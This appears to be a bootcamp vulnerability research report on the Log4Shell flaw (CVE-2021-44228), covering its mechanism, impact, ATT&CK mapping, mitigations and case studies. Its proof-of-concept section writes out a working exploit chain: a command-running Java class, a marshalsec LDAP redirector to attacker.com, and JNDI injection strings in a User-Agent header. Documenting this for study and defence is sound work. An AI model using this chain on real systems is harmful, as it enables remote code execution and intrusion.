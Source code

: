 # log4j-report
A report for my bootcamp.
📈 CVE-2021-44228 (Log4Shell) - Vulnerability Research Report

Author: Alex Breger
Date: April 2025
Tags: Apache, Log4j, JNDI, LDAP, RCE, CVE, Exploit, MITRE ATT&CK

⸻

🔍 Executive Summary
	•	CVE: CVE-2021-44228
	•	Discovered: December 2021
	•	Affected Software: Apache Log4j2 (2.0-beta9 to 2.14.1)
	•	Impact: Remote Code Execution (RCE)
	•	Vector: JNDI Lookup injection via LDAP
	•	Severity: Critical (CVSS Score: 10.0)

The vulnerability known as Log4Shell resides in Apache Log4j2 and enables attackers to perform Remote Code Execution by leveraging the JNDI Lookup feature embedded within log message resolution logic. When user-controlled data is logged, it may include malicious JNDI lookups such as ${jndi:ldap://attacker.com/payload}, which Log4j resolves, triggering a remote class load and execution.

⸻

🔪 Technical Description

Nature of the Vulnerability

Log4j2 improperly processes embedded variables using JNDI lookups. Attackers can inject expressions like ${jndi:ldap://...} into log messages, tricking the logger into reaching out to attacker-controlled directories and deserializing remote classes.

Key Mechanism:
	•	JNDI (Java Naming and Directory Interface) allows resolution of external resources
	•	Log4j2 supports recursive evaluation of input data
	•	Result: Arbitrary code fetched from attacker server is loaded and executed

Exploitation Vector
	1.	Attacker sends a malicious input to the system (e.g., HTTP header, form field, user agent):

User-Agent: ${jndi:ldap://attacker.com/exploit}


	2.	Log4j logs the string, triggering JNDI lookup
	3.	Lookup contacts LDAP server controlled by attacker
	4.	LDAP server responds with remote Java class reference
	5.	The vulnerable application loads and executes the remote class, leading to RCE

⸻

📈 Affected Systems
	•	Log4j Versions: 2.0-beta9 through 2.14.1
	•	Patched in: 2.15.0 (JNDI disabled by default), removed entirely in 2.16.0+
	•	Vendors Impacted: Virtually all major Java-based software stacks (e.g., Apache, Minecraft, VMware, Elastic, AWS services, etc.)

⸻

🔦 MITRE ATT&CK Mapping

Tactic	Technique Description	ID
Initial Access	Exploit Application Vulnerability	T1190
Execution	Remote Java Class Execution via JNDI	T1059.005
Command and Control	External Remote Service (LDAP/HTTP)	T1071.001



⸻

⚖️ Impact

🚀 Remote Code Execution (RCE)
	•	Arbitrary attacker code is executed within the JVM of the vulnerable application

🔐 Full System Compromise
	•	If the app runs as root or privileged service, full machine compromise is possible

📈 Data Exfiltration
	•	Access to sensitive logs, credentials, tokens, customer data

🤧 Lateral Movement
	•	Compromised system may be used as a launchpad to pivot internally

⛔ Denial of Service / Persistence
	•	Malware, ransomware, or persistent access can be established

⸻

⚜️ Real-World Exploits & Responses
	•	CISA: Issued emergency directive urging immediate patching across federal systems
	•	SANS Institute: Documented exploitation in retail sector involving exfiltration and malware
	•	GitHub: Reviewed 35,000+ dependencies and rapidly patched repositories
	•	AWS: Rolled out proactive mitigations across customer services
	•	Nation-State Actors: APTs and ransomware groups exploited the vulnerability at scale

⸻

🪜 Mitigation and Remediation

✅ Recommended Actions
	1.	Upgrade Log4j2 to ≥ 2.16.0
	2.	Remove JndiLookup class:

zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class


	3.	Disable JNDI Lookup in configurations:

-Dlog4j2.formatMsgNoLookups=true


	4.	Use Web Application Firewalls (WAFs) to block known payload patterns
	5.	Restrict outbound LDAP/DNS access in egress firewall rules
	6.	Monitor Logs for Indicators of Compromise (IOCs)

⌚ Long-Term Recommendations
	•	Harden JVM runtime
	•	Perform dependency audits (SBOMs)
	•	Implement centralized logging + anomaly detection
	•	Train developers to avoid logging unsanitized input

⸻

📊 Case Studies

1. Retail Company (SANS)

Attackers used Log4Shell to exfiltrate credit card data, later leading to a ransomware drop.

2. GitHub Response

35,000+ codebases were scanned and upgraded within 72 hours to ensure zero exposure.

3. AWS

AWS released automated scanning and blocked outbound JNDI-based exploits across EC2, Lambda, etc.

⸻

🧪 High-Level Proof of Concept (PoC)

For educational purposes only

Step 1: Craft malicious Java class

public class Exploit {
    static {
        Runtime.getRuntime().exec("touch /tmp/pwned");
    }
}

Step 2: Host class file over HTTP

python3 -m http.server 8000

Step 3: Setup LDAP server to redirect to payload

Use marshalsec tool to setup malicious LDAP redirector

java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://attacker.com:8000/#Exploit

Step 4: Trigger the exploit

Send malicious input to vulnerable app:

User-Agent: ${jndi:ldap://attacker.com:1389/Exploit}

Step 5: Observe RCE
	•	Confirm touch /tmp/pwned executed on target
	•	Log and alert on outbound JNDI calls

⸻

🔧 References
	•	CVE-2021-44228 NVD
	•	Apache Log4j Security Advisory
	•	GitHub’s Response
	•	SANS Log4Shell Resources
	•	CISA Log4Shell Mitigation Guidance
	•	marshalsec GitHub

⸻

💪 License

MIT License © 2025 Alex Breger

⸻

⚠️ DISCLAIMER

This content is for educational and ethical research purposes only. Do not exploit systems without proper authorization.
